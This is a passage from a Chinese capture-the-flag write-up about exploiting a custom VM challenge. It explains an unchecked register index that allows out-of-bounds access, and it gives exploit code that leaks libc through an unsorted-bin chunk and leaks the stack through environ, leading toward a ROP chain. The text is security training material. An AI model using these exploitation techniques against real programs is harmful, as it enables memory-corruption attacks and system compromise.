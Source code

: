 ```python
    pay+=b'\x12'+b'\x02'+p8(idx)+p64(ptr)

#reg[idx1]=reg[idx2]  idx2没有检查
def swapreg0(idx1,idx2):
    global pay
    pay+=b'\x12'+b'\x04'+p8(idx1)+p8(idx2)

#reg[idx1]=*reg[idx2]
def swapreg1(idx1,idx2):
    global pay
    pay+=b'\x12'+b'\x08'+p8(idx1)+p8(idx2)

#*reg[idx1]=reg[idx2]
def swapreg2(idx1,idx2):
    global pay
    pay+=b'\x12'+b'\x10'+p8(idx1)+p8(idx2)
```

可以看到这个vm给的opcode非常全，而且可以发现最后几个指令，**有任意地址的读取，和任意地址的写，同时还有个free然后malloc指令**

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-dac4600a164cc5525fa7b3a28735224a08a87504.png)

同时发现有个**swapreg0指令也即是reg\[idx1\]=reg\[idx2\]，这里的idx2没有check寄存器的边界，这就造成了越界**

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-db74d95aedd04f6aabdbe42e0d0a3698508f0ee2.png)

exp编写
-----

根据上述的漏洞分析，那么思路就明确了。

**既然有free和malloc，而且一开始的栈对应的堆块是0x510大小，free后直接进入unsorted bin，那么再malloc直接可以申请出被写入了libc的地址，同时利用swapreg0的越界，就可以leak出libc**

```python
#得到libcbase
malloc(0x400)
swapreg0(0,14)
reg_subvalue(0,0x1ed010) #reg[0]=libcbase
swapreg0(7,0)  #reg[7]=libcbase
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-85e37791f8bfa4ed183145b19d3d173c216c36ef.png)

因为有沙盒，所以肯定要进行ROP，那么**可以利用environ变量泄露出栈地址，然后得到返回地址，最后利用任意地址写来写入ROP**

```python
#泄露栈地址，reg[1]=retaddr
reg_addvalue(0,0x1ef600) #reg[0]=&environ
swapreg1(1,0) #reg[1]=stack
reg_subvalue(1,0x000190) #retaddr
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-25e0c732f86ce623910a0b10734dc41abff5b27c.png)
